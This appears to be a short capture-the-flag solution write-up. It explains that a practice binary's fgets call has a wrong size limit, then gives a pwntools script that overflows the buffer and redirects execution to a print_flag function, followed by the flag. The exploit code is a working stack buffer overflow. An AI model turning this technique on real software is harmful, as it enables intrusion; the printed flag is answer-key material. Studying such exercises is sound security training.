 # Solution
It's the same as the previous exercise, it uses `fgets` instead of gets but the provided character limit is incorrect (it should be 32).

```python
from pwn import *

context.binary = "./hi"

p = process()
p.sendline(b"A" * 32 + b"a" * 8 + p64(context.binary.functions["print_flag"].address))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

## Flag
```plain
ccit{hi_i_am_a_flag}
```